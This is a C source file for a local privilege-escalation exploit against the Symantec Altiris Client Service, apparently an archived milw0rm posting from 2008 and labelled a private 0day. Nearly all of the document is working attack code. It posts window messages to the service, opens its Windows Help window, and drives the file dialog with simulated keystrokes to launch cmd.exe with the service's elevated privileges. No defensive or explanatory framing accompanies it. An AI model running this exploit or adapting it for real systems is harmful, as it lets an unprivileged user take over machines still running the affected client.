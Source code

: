 EXP
---

    // 0day PRIVATE NOT DISTRIBUTE!!!
    //
    // Symantec Altiris Client Service Local Exploit (0day)
    //
    // Affected Versions    : Altiris Client 6.5.248
    //            Altiris Client 6.5.299
    //            Altiris client 6.8.378
    //
    // Alex Hernandez aka alt3kx
    // ahernandez [at] sybsecurity.com
    //
    // Eduardo Vela aka sirdarckcat
    // sirdarckcat [at] gmail.com
    //
    // We'll see you soon at ph-neutral 0x7d8

    #include "stdio.h"
    #include "windows.h"

    int main(int argc, char* argv[])
    {
     HWND lHandle, lHandle2;
     POINT point;
     int id,a=0;
     char langH[255][255];
     char langO[255][255];
     char wname[]="Altiris Client Service";

     strcpy(langH[0x0c],"Aide de Windows");
     strcpy(langH[0x09],"Windows Help");
     strcpy(langH[0x0a],"Ayuda de Windows");

     strcpy(langO[0x0c],"Ouvrir");
     strcpy(langO[0x09],"Open");
     strcpy(langO[0x0a],"Abrir");

     printf("##########################################################\n");
     printf("#                  Altiris Client Service                #\n");
     printf("# WM_COMMANDHELP Windows Privilege Escalation Exploit    #\n");
     printf("# by sirdarckcat & alt3kx                                #\n");
     printf("#                                                        #\n");
     printf("# This exploit is based on www.milw0rm.com/exploits/350  #\n");
     printf("# Utility Manager Privilege Elevation Exploit (MS04-019) #\n");
     printf("# by Cesar Cerrudo                                       #\n");
     printf("##########################################################\n\n");

     id=PRIMARYLANGID(GetSystemDefaultLangID());
     if (id==0 && (id=PRIMARYLANGID(GetUserDefaultLangID()))){
        printf("Lang not found, using english\n");
        id=9;
     }

     char sText[]="%windir%\\system32\\cmd.ex?";

     if (argc<2){
        printf("Use:\n> %s [LANG-ID]\n\n",argv[0]);
        printf("Look for your LANG-ID here:\n");
        printf("http://msdn2.microsoft.com/en-us/library/ms776294.aspx\n");
        printf("\nAnyway, the program will try to guess it.\n\n");
        return 0;
     }else{
        if (argc==2){
           if (langH[atoi(argv[1])]){
              id=atoi(argv[1]);
              printf("Lang changed\n");
           }else{
              printf("Lang not supported\n",id);
           }
        }
     }
     printf("Using Lang %d\n",id);
     printf("Looking for %s..\n",wname);
     lHandle=FindWindow(NULL, wname);
     if (!lHandle) {
      printf("Window %s not found\n", wname);
      return 0;
     }else{
      printf("Found! exploiting..\n");
     }
     PostMessage(lHandle,0x313,NULL,NULL);

     Sleep(100);

     SendMessage(lHandle,0x365,NULL,0x1);
     Sleep(300);
     pp:
     if (!FindWindow(NULL, langH[id])){
        printf("Help Window not found.. exploit unsuccesful\n");
        if (id!=9){
           printf("Trying with english..\n");
           id=9;
           goto pp;
        }else{
              return 0;
        }
     }else{
        printf("Help Window found! exploiting..\n");
     }
     SendMessage (FindWindow(NULL, langH[id]), WM_IME_KEYDOWN, VK_RETURN, 0);
     Sleep(500);
     lHandle = FindWindow("#32770",langO[id]);
     lHandle2 = GetDlgItem(lHandle, 0x47C);
     Sleep(500);
     printf("Sending path..\n");
     SendMessage (lHandle2, WM_SETTEXT, 0, (LPARAM)sText);
     Sleep(800);
     SendMessage (lHandle2, WM_IME_KEYDOWN, VK_RETURN, 0);
     lHandle2 = GetDlgItem(lHandle, 0x4A0);
     printf("Looking for cmd..\n");
     SendMessage (lHandle2, WM_IME_KEYDOWN, VK_TAB, 0);
     Sleep(500);
     lHandle2 = FindWindowEx(lHandle,NULL,"SHELLDLL_DefView", NULL);
     lHandle2 = GetDlgItem(lHandle2, 0x1);
     printf("Sending keys..\n");
     SendMessage (lHandle2, WM_IME_KEYDOWN, 0x43, 0);
     SendMessage (lHandle2, WM_IME_KEYDOWN, 0x4D, 0);
     SendMessage (lHandle2, WM_IME_KEYDOWN, 0x44, 0);
     Sleep(500);
     mark:
     PostMessage (lHandle2, WM_CONTEXTMENU, 0, 0);
     Sleep(1000);
     point.x =10; point.y =30;
     lHandle2=WindowFromPoint(point);
      Sleep(1000);
     printf("Opening shell..\n");
     SendMessage (lHandle2, WM_KEYDOWN, VK_DOWN, 0);
      Sleep(1000);
     SendMessage (lHandle2, WM_KEYDOWN, VK_DOWN, 0);
      Sleep(1000);
     SendMessage (lHandle2, WM_KEYDOWN, VK_RETURN, 0);
      Sleep(1000);
     if (!FindWindow(NULL,"C:\\WINDOWS\\system32\\cmd.exe") && !FindWindow(NULL,"C:\\WINNT\\system32\\cmd.exe")){
        printf("Failed\n");
        if (!a){
            a++;
            goto mark;
        }
     }else{
           printf("Done!\n");
     }
     if(!a){
        SendMessage (lHandle, WM_CLOSE,0,0);
        Sleep(500);
        SendMessage (FindWindow(NULL, langH[id]), WM_CLOSE, 0, 0);
        SendMessage (FindWindow(NULL, argv[1]), WM_CLOSE, 0, 0);
     }else{
        printf("The exploit failed, but maybe the context window of the shell is visibile.\n");
     }
     return 0;
    }

    // milw0rm.com [2008-05-15]